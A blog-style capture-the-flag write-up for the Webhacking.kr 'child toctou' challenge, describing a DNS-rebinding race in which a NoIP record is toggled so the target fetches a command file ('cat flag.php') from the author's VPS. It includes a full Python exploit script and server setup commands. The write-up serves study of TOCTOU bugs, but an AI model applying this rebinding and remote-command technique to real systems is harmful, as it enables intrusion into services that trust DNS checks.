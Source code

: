 ```yaml
---
layout: post
title: "[Webhacking.kr] Child toctou 🚲 writeup (cont'd)"
categories: hacking writeup web
---
```


## Introduction
Link: [http://webhacking.kr:10020/](http://webhacking.kr:10020/)

In the last part, I have found the vulnerable code in `api.php`. The only thing that prevented me from solving that
was the dynamic DNS functionality. With the suggestion from a friend, I finally found a way to make my exploitation
idea work.

## The exploitation

### Dynamic DNS

NoIP's Dynamic DNS service is a free service that allows us to create a DNS record. Let's make use of that.

![change_dns](/assets/images/child-toctou/change_dns.png)

But I don't want to do it manually, so I inspect the API calls on the site, and convert to Python for automation. Fortunately, modern browsers (Tested on Firefox and Chrome) support copying a request as cURL, and there is an [online service](https://curlconverter.com/) that converts cURL commands to Python code.

![curl](/assets/images/child-toctou/inspector.png)

### DNS Resolver

Python can use OS's DNS resolver with `socket.gethostbyname` method, but it is slow and behind DNS caching mechanisms which can not be bypassed. So I used `dnspython` library.

One thing I noticed was when changing DNS record, DNS servers don't reflect the change immediately. There are some jumpings back and forth between the old and the new IPs. So my code didn't reliably work every time, but that is okay because I just need to see the flag once and I'm done.


### Exposing my server

Now how do I expose my server to carry the payload? I tried using ngrok, but ngrok free plan can not expose a specific port. So I decided to buy a cheap VPS from Vultr with an public IPv4 address.
One thing to keep in mind is Vultr blocks all incoming traffic except on port 22 (SSH) by default, so in order to expose port 10020, we need to unblock it first

```sh
sudo ufw allow from 202.182.106.159 proto tcp to any port 10020 
```

After creating the required folder structure, I ran the server

```sh
mkdir cmd
echo "cat flag.php" > cmd/ls.txt
python3 -m http.server 10020
```

## Exploitation code

__Warning: Sensitive information got stripped off the script, so it won't run.__
```python
import requests, threading, time
import dns.resolver as dns

g_done = False

def __noip_request(ip):
    cookies = {
        'REF_CODE': 'https%3A%2F%2Fwww.noip.com%2Fmembers%2Fdns%2F',
    }

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    }

    params = {
        'host_id': '******',
    }

    data = {
        'token': '******',
        'host[host]': 'l4rzy',
        'host[domain]': 'ddns.net',
        'host[ttl]': '60',
        'host[group_id]': '0',
        'host[type]': 'a',
        'host[ip]': ip,
        'nlocations': '0',
        'host[alias]': '',
        'host[ipv6]': '',
        'host[aname]': '',
        'host[port][ip]': '',
        'host[port][port]': '8080',
        'host[redirect][protocol]': 'https',
        'host[redirect][url]': '',
        'host[mask][title]': '',
        'host[mask][meta_keywords]': '',
        'host[mask][meta_desc]': '',
        'host[mx][0][mx]': '',
        'host[mx][0][priority]': '5',
        'do': 'update',
    }

    response = requests.post('https://www.noip.com/members/dns/host.php', params=params, cookies=cookies, headers=headers, data=data)


def change_dns(toMyServer = True):
    __noip_request('******' if toMyServer else '202.182.106.159')


def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10020/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
        'Host': 'l4rzy.ddns.net',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10020/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    result = response.text
    if "flag{" in result:
        print(result)
        g_done = True

def check_ip(host, ip):
    result = dns.resolve(host, 'A')
    for i in result:
        resolved = i;
    print(resolved, flush=True)
    return resolved.to_text() == ip

def check_ip_times(host, ip, times):
    for i in range(times):
        if check_ip(host, ip) == False:
            return False
    return True

print('[info] changing the DNS A record to the designated IP ...')
ip_set = check_ip('l4rzy.ddns.net', '202.182.106.159')

if ip_set == False:
    change_dns(toMyServer = False)
    while ip_set ==  False:
        ip_set = check_ip_times('l4rzy.ddns.net', '202.182.106.159', 2)
        time.sleep(1)
        
print('done')
# ---------------------
print('[info] redirecting to our site ...', flush=True)
change_dns()
print(f'[info] getting in ...')

while not g_done:
    check_ip('l4rzy.ddns.net', '******')
    jobs = list()
    for i in range(10):
        jobs.append(threading.Thread(target=send, args=('ls',)))
        jobs[i].start()
        
    for i in range(10):
        jobs[i].join()
```

And when we see a bunch of requests like this on our server, the challenge got pwned.

![server_output](/assets/images/child-toctou/server_output.png)

## Conclusion
I was surprised that there were only 18 people have solved this challenge (I was the 19th). I believe many people have the idea to solve, but the process of solving it is a little bit cumbersome.

P.S. So just after solving the 2 toctou challenges, I just happened to know that TOCTOU was a class of software bugs. The idea behind this class of bugs is to exploit the time window between two calls to modify a state. Read more on wiki: [https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)